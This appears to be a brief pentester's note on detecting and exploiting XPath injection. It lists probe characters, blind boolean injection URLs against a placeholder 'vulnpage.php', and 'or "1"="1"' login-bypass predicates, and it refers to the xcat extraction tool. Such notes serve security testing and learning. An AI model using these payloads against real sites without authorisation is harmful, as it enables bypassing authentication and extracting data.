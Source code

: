 # Simple checks for vulnerable XPATH

### Check if there is any behavioral difference in the responses
```
You could use ' (apostrophe) or , (Comma)
```

Apostrophe used as string terminator

Comma used to break intergers, althorugh any character would work

```
http://<website>/vulnpage.php?countryID=a'
```

### Blind bolean injection
You can check if there is a valid injection by checking with commands if there is no error messages. You can check whenether you get a valid response back or not depending on if it's TRUE or FALSE
```
## TRUE 
http://<website>/vulnpage.php?countryID=999999 or 1=1
http://<website>/vulnpage.php?countryID=999999 or "2" or "2"
## FALSE
http://<website>/vulnpage.php?countryID=999999 or 1=2
http://<website>/vulnpage.php?countryID=999999 or "1"="2"
## Double or (to bypass when not nothing username and password is required)
//<someNode>[username='' or "1"="1" or "1"="1" and password='']
## Password injection parameter.
//<someNode>[username='' and password='' or "1"="1"]
```

# Enumerate Blind Bolean injections with xcat
You can see here how to use xcat (Tool for injection auto blind bolean to extract) 

[[Xcat]]

### Useful XPath statements
![[Pasted image 20220217090452.png]]